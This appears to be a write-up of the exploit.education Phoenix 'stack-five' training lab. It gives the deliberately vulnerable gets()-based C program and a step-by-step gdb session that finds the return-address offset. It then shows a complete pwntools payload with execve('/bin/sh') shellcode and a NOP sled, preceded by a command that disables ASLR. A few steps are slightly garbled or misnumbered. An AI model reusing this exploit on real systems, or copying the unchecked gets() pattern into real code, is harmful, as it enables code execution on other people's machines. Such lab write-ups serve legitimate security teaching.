



# Stack Five

```c
/*
 * phoenix/stack-five, by https://exploit.education
 *
 * Can you execve("/bin/sh", ...) ?
 *
 * What is green and goes to summer camp? A brussel scout.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void start_level() {
  char buffer[128];
  gets(buffer);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

## Solution

Note: if [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization) is turned on, you will need to temporarily turn it off for this exercise. You can do this with `echo 0 > /proc/sys/kernel/randomize_va_space`. Don't forget to turn it back on when you are done (`echo 2 > /proc/sys/kernel/randomize_va_space`)

In order to solve this one, we have to overwrite the return address of the `start_level()` call so that instead of returning to `main()` it returns instead to an address in the buffer where we have written shellcode. When this happens it will execute the shellcode. For this exercise the comments say to try and `execve("/bin/sh")`, so we will choose shellcode that executes that command.

1. Setup a template:
   ```python
    #!/usr/bin/python3
    import sys
    import pwn

    shellcode = b''
    payload_addr = 0x0000000000000000
    sled_len = 0
    offset = 0

    buf = b''
    buf += b'\x90' * sled_len # put NOP sled here
    buf += shellcode # payload
    buf += b'A' * (offset - len(buf) - 8) # Junk to get to Base Pointer
    buf += b'BBBBBBBB' # base pointer
    buf += pwn.p64(payload_addr) # New instruction pointer

    # send bytes raw to stdout
    sys.stdout.buffer.write(buf)
    ```

2. Get some shellcode from [shell-storm.org](https://shell-storm.org/shellcode/index.html), and select the appropriate architecture. For me it was the [Intel x86-64 one](https://shell-storm.org/shellcode/files/shellcode-905.html). It gives the 29 byte shellcode: `\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05`.
3. `gdb -q /opt/phoenix/amd64/stack-five` 
   1. `unset env LINES` and  `unset env COLUMNS` removes some unnecessary bloat on the stack to make our ROP easier
   2. `info func` to see our functions of interest
   3. `b main` sets a breakpoint on `main()`
   4. `b start_level` sets a breakpoint on `start_level()`
   5. `disass main` disassemble `main()` function



5. We need to overwrite the place in memory that stores the return location (`0x00000000004005c7`). Lets find the offset:
   1. `run`
   2. `continue` to `start_level` breakpoint and `ni` (next instruction) to the `gets()` call.
   3. enter an easily recognizable pattern: `AAAABBBB`
6. inspect the stack with `x/80xg $rsp`
   1. `x` is short for "examine". This starts the command to examine memory.
   2. `/32` specifies how many units of memory you want to examine. In this case, it's 80 units.
   3. `x` (the second one, after the slash) specifies the format in which you want the memory to be displayed. In this case, `x` stands for hexadecimal.
   4. `g` specifies the size of each unit of memory that you are examining. Here, `g` stands for "giant word", which is usually 8 bytes (64 bits) on most systems.
   5. `$rsp` is the value in the RSP register. On x86-64 systems, RSP is the stack pointer, which points to the top of the stack.
7.  
    1.   This is where our text went, `A` is `0x41` and `B` is `0x42`, it's at address `0x7fffffffdd50`
    2.   This is where the return address to overwrite is: `0x7fffffffdd8`. it's `0x7fffffffddd0` + 8 bytes because it's on the right column (Each line in GDB is 16 bytes.)
    3.   subtract the address from one another to get the offset `0x7fffffffddd8` - `0x7fffffffdd50` = `0x88`
    4.   `0x88` is 136 in decimal.
8. Craft the payload
```python
#!/usr/bin/python3

import sys
import pwn

shellcode = b'\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'
payload_addr = 0x7fffffffdd50
sled_len = 32
offset = 136

buf = b''
buf += b'\x90' * sled_len # put NOP sled here
buf += shellcode # payload
buf += b'A' * ((offset - 8) - len(buf)) # Junk to get to Base Pointer
buf += b'BBBBBBBB' # base pointer
buf += pwn.p64(payload_addr) # New instruction pointer

# send bytes raw to stdout
sys.stdout.buffer.write(buf)
```
9. Execute!
   1.  `python3 solve.py > payload`
   2.  `cat payload - | /opt/phoenix/amd64/stack-five`
   3.  